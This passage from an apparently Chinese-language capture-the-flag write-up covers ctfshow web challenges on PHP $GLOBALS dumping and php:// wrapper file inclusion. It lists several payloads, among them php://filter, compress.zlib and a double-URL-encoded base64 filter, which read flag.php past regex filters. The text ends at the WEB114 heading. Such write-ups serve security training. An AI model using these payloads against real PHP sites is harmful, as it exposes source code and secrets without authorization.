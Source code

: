 php中$GLOBALS的用法是引用是全局作用域中的可用的全部变量，例如【$GLOBALS["foo"]】。$GLOBALS是一个包含了全部变量的全局组合数组。

思路v1固定为ctfshow，在eval中可将v2的值赋给v1

利用GLOBALS打印代码中所有全局变量

payload：?v1=ctfshow&v2=GLOBALS

## WEB112  php伪协议

![112](img/112.png)

思路file不能是一个文件且要执行highlight_file,考虑伪协议

ba64，rot13等被正则

payload: file=php://filter/resource=flag.php

其他姿势：

payload: file=php://filter/read=convert.quoted-printable-encode/resource=flag.php
payload: file=compress.zlib://flag.php
payload: file=php://filter/read=convert.iconv.utf-8.utf-16le/resource=flag.php
payload:file=php://filter/convert.%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%35%25%36%65%25%36%33%25%36%66%25%36%34%25%36%35/resource=flag.php（对过滤器两次url编码）

## WEB113

同102

payload：payload: file=compress.zlib://flag.php

## WEB114

